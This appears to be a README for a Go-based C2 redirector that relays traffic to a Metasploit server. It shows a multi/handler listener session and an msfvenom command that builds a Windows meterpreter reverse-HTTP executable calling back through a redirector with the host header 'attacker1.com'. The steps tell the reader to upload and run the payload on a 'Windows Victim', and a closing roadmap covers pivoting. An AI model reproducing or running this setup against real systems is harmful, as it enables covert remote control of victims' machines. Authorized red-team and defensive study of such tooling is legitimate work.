 # Multiplexer C2

* A redirector built using golang

## Example:

* Metasploit
```
$ sudo msfdb init && msfconsole
[sudo] password for kali: 
[+] Starting database
[i] The database appears to be already configured, skipping initialization
Metasploit tip: Search can apply complex filters such as search cve:2009 
type:exploit, see all the filters with help search
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.3.55-dev                          ]
+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set LHOST 0.0.0.0                                                                            
LHOST => 0.0.0.0                                                                                                           

msf6 exploit(multi/handler) > set LPORT 10080                                                                              
LPORT => 10080

msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_http
payload => windows/meterpreter_reverse_http

msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
```

* msfvenom - Set the host IP of your redirector
```
└─$ msfvenom -p windows/meterpreter_reverse_http LHOST=10.0.2.10 LPORT=80 HttpHostHeader=attacker1.com -f exe -o payload1.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 177286 bytes
Final size of exe file: 252416 bytes
Saved as: payload1.exe
```

* Upload the payload to windows
* Run your golang program
* Execute the Windows payload

```

                            +--------------------+
                            |                    |
                            |   Windows Victim   |
                            |                    |
                            +--------------------+
                                    |
                                    |
           +-----------HTTP---------+
           |
           |
           \/
+---------------------+                             +---------------------+
|                     |                             |                     |
|  Golang Redirector  |------------HTTP------------>|  Metasploit server  |
|                     |                             |                     |
+---------------------+                             +---------------------+

```

## Next Steps

* Currently we hardcode the C2 ip address, need to make the hostname and port as a user argument.
* Need to add a userinput flag for more redirectors. Great for pivoting.
* Dockerize this. Makes it easier for portability, and if done with docker scratch, exploited containers deemed useless.
* Https and TCP - Need options to route over an https, http, tls, and mtls connections.